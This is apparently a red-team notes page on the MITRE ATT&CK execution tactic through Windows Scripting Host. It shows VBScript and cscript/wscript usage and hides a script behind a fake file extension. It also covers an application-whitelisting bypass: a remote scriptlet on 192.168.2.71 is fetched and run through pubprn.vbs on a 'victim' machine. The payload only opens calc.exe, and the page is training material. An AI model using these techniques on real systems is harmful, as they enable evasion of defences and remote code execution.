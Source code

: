 ```yaml
---
description: MITRE ATT&CK™ Technique TA0002
---
```

# Windows Scripting Host (WSH)

## Theory

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

## Practice


{% tabs %}

{% tab title="Basic Usage" %}
let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```bash
#openCalc.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

We can now execute the vbs script on the target machine
```bash
cscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
wscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
```

{% hint style="success" %}
A nice trick !
{% endhint %}
A trick is to change the .vbs extension by a randomly choosen one.
```bash
wscript.exe /e:VBScript c:\Users\Veresk\Desktop\openCalc.odt
```
{% endtab %}

{% tab title="pubprn.vbs" %}
{% hint style="info" %}
Signed Script Proxy Execution - bypass application whitelisting using pubprn.vbs
{% endhint %}
Using [pubprn.vbs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753116(v=ws.11)), we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

```bash
#http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
On the victime computer:
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
